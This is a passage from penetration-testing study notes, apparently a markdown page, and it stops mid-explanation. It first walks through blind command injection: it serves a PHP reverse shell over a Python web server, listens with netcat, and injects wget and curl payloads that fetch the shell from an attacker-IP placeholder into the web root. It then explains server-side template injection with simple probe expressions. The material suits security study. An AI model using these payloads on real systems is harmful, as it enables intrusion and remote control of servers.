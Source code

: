 Host the python web server in tmp folder
- `python3 -m http.server 81`

In another command tab, listen for the port mentioned in the reverse shell file
- `nc -nvlp 4444`

In the browser, for blind injection use wget and grab the php file or if that doesn't work we can use curl to grab the file.
- `https://google.com \n wget {attacker_IP_address}:81/rev.php`
- `https://google.com && curl {attacker_IP_address}:81/rev.php > /var/www/html/rev.php`

Once, we have the file in the target machine try to run the file, that is placed in /var/www/html path, with the base url, for example
-  `http://localhost/rev.php`

Observe if the reverse shell is popped in the nc listen in attacker machine, if yes, we are successful with the blind command injection.


## Server-Side Template Injection (SSTI):


**Server-Side Template Injection (SSTI)** is a security vulnerability that occurs when user input is improperly handled and then embedded into a template on the server side, leading to the execution of unintended code. It exploits a web application that uses server-side templating engines (such as Jinja2, Django Templates, or Twig) to generate dynamic content by injecting malicious template code through user input. If the input is not adequately sanitized or validated, it can lead to the execution of arbitrary code on the server.

##### How Server-Side Template Injection Works:

1. **Template Engine Use**: Many web applications use server-side templating engines to generate dynamic content. These engines process templates (HTML, XML, etc.) and fill in dynamic data, such as user-provided input, from the backend.

2. **Injection of Template Code**: If an attacker can control or influence the template code being processed, they may inject template syntax or expressions into the input fields. For example, in a Python application using Jinja2, an attacker could inject something like `{{ config }}`, `{{ 7*7 }}`, or `{{ request.args.get('user_input') }}` into an input field.

3. **Execution of Arbitrary Code**: The server-side template engine processes the injected code, which could result in:
    
    - **Information Disclosure**: The attacker may be able to access sensitive information, such as environment variables or system configuration settings, by manipulating template expressions (e.g., `{{ config }}`).
    - **Remote Code Execution (RCE)**: In more severe cases, the attacker could execute arbitrary code on the server by manipulating the template engine's behavior (e.g., using `os.system()` in Python or accessing system functions).
    - **Data Exfiltration**: Attackers may extract data from the server, including files or database contents.

##### Example of Server-Side Template Injection:

Imagine a web application that uses a templating engine like Jinja2 to render user-specific pages. The server might render a page with the following template:
